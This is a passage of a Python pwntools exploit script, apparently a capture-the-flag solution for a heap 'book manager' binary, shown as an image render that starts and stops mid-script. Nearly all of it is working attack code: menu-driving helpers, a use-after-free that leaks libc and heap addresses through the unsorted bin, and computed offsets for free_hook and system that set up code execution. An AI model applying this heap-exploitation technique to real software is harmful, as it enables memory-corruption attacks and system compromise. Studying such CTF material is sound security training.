 ```python
    io.recvuntil(b'num page:')
    io.sendline(f"{num_pages}".encode())
    io.recvuntil(b"desc len:")
    io.sendline(f"{desc_len}".encode())


def edit_book(idx,title,num_pages,desc,desc_len):
    io.recvuntil(b'>')
    io.sendline(b'2')
    io.recvuntil(b'idx book:')
    io.sendline(f"{idx}".encode())
    io.recvuntil(b'title:')
    io.send(title)
    io.recvuntil(b'num page:')
    io.sendline(f"{num_pages}".encode())
    io.recvuntil(b"desc len:")
    io.sendline(f"{desc_len}".encode())
    io.recvuntil(b'desc:')
    io.send(desc)

def delete_book(idx):
    io.recvuntil(b'>')
    io.sendline(b'4')
    io.recvuntil(b'idx book:')
    io.sendline(f"{idx}".encode())

def leak(idx):
    io.recvuntil(b'>')
    io.sendline(b'3')
    io.recvuntil(b'idx book:')
    io.sendline(f"{idx}".encode())
    io.recvuntil(b'description : ')
    return io.recvline()

#Leak libc by creating an unsorted bin and printing the address with a UAF
for i in range(0,8):
    create_book(i,b'abcd',20,chr(0x41+i).encode()*0x98,0x98)

for i in range(0,8):
    if i == 3:
        continue
    delete_book(i)
delete_book(3)

for i in range(0,7):
    create_book(i,b'abcd',20,b'\n',0x98)
create_invalid_book(14,b'abcd',20,-1)

libcleak = u64(leak(14)[:-1].ljust(8,b'\x00'))
libcbase = libcleak - 0x1ebbe0-0x1000

#malloc_hook = libcbase+0x1ebb45
free_hook = libcbase+0x1eee48

for i in range(0,6):
    delete_book(i)
delete_book(6)
create_invalid_book(15,b'abcd',20,-1)
heapleak = u64(leak(15)[:-1].ljust(8,b'\x00'))
heapbase = heapleak-0x3a0
system = libcbase+0x52290

log.info(f"LIBC BASE: {hex(libcbase)}")
```
